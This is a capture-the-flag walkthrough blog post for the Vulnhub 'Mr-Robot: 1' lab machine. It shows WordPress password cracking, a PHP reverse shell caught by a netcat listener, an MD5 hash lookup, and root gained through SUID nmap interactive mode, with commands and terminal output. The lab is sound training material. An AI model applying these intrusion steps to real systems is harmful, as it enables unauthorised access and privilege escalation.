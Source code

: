 ```yaml
---
layout: post
title: Mr-Robot 1 Walkthrough
subtitle: Virtual Machine hosted on vulnhub from Jason
date: 2017-05-08 00:00:00
lastupdated: 
category: Vulnhub
tags: [vulnhub, walkthrough]
bigimg: /img/walkthrough3.jpg
comments: true
---
```


Today I'm publishing my walkthrough against the vm hosted on vulnhub called [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/) by Jason.

First of all in the [webpage](https://www.vulnhub.com/entry/mr-robot-1,151/)'s description we can read that the vm is based on the tv series Mr Robot and there are three hidden keys to find.

So I started to find the vm's ip by lauching netdiscover command:
![Net Discover](/assets/vulnhub/mr-robot/netdiscover.png)

Then, I launched nmap:
![IP Scanning](/assets/vulnhub/mr-robot/nmap.png)

The scanning result reveals that the open ports are 80 and 443 and the port 22 is closed.
Opening the web server I could see a beautiful website and if we write the commands listed on the fake terminal it shows more videos:
![Web Site](/assets/vulnhub/mr-robot/website.png)

I opened source code and I saw some js scripts and one of these looked like it was making you write in window's log. Nothing interesting:
![Web Site Source](/assets/vulnhub/mr-robot/website-source.png)

Then we can see if nikto reveals something:
![Nikto](/assets/vulnhub/mr-robot/nikto.png)

Good! Nikto said that Apache mod_negotiation is enabled with MultiViews. This means if the server receives a request for a specific folder inexistent, then the server reads the directory looking for files named name_folder.*, and effectively fakes up a type map which names all those files, assigning them the same media types and content-encodings it would have if the client had asked for one of them by name. It then chooses the best match to the client's requirements.
Nikto also said that the website is wordpress so we can launch wpscan for further informations. Before starting wpscan I visited robots.txt in the web server, where I found two interesting files:
![Robots.txt](/assets/vulnhub/mr-robot/robots.png)

File key-1-of-3.txt is the first key found and also another file named fsocity.dic, which supposedly is a wordlist. Thus I launched wpscan:
![WpScan](/assets/vulnhub/mr-robot/wpscan.png)

Perfect! The first scan result reveals a vulnerability and a wordpress installation! I tried to login with some users and obviously I found one user named elliot! So I launched wpscan to crack elliot's password with the previous wordlist fsocity.dic with slight changes :smirk:. This was possible because the wordlist contained some repeated passwords.
![Cracking Password](/assets/vulnhub/mr-robot/cracking-password.png)

After less than two minutes I found elliot's password!! Now we can try to login with these credentials and then we proceed to upload the /usr/share/webshells/php-reverse shell.php file, having already changed the reverse ip address:
![Upload Reverse Shell](/assets/vulnhub/mr-robot/upload-reverse-shell.png)

I launched the netcat listener and, after triggering the appropriate bash python shell, I listed the home folder and I found the second key file and a md5 password file. Unfortunately the second key was only readable by the root.

```plaintext
root@kali:~/Scrivania/reports/mrrobot# nc -nlvp 1234
listening on [any] 1234 ...

connect to [192.168.1.159] from (UNKNOWN) [192.168.1.10] 59837
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 02:51:42 up  4:05,  0 users,  load average: 0.00, 0.05, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ $ 
$ python -c "import pty; pty.spawn('/bin/bash');"
daemon@linux:/$ ls -l home
ls -l home
total 4
drwxr-xr-x 2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ cd /home/robot
cd /home/robot
daemon@linux:/home/robot$ ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
```

I opened this [website](https://hashkiller.co.uk/md-decrypter.aspx) and I tried to find the md5 hash:
![MD5 Decrypter](/assets/vulnhub/mr-robot/md5-decrypter.png)

After this step, I logged in as robot and I could finally see the second key!!

```plaintext
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

At this point I wanted to try to seek setuid files that might be exploitable.

```plaintext
robot@linux:~$ find / -perm +6000 2> /dev/null
find / -perm +6000 2> /dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
/usr/local/share/xml
/usr/local/share/xml/schema
/usr/local/share/xml/declaration
/usr/local/share/xml/misc
/usr/local/share/xml/entities
/usr/local/share/ca-certificates
```

An old nmap version is installed.. We can now use the interactive mode inside nmap and then we can view who we are.. Yes, we are root!! :smiley:

```plaintext
daemon@linux:/$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !ls -l /root
!ls -l /root
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
waiting to reap child : No child processes
nmap> !cat /root/key-3-of-3.txt
!cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
waiting to reap child : No child processes
```

I browsed into the root folder and I found the third key!!
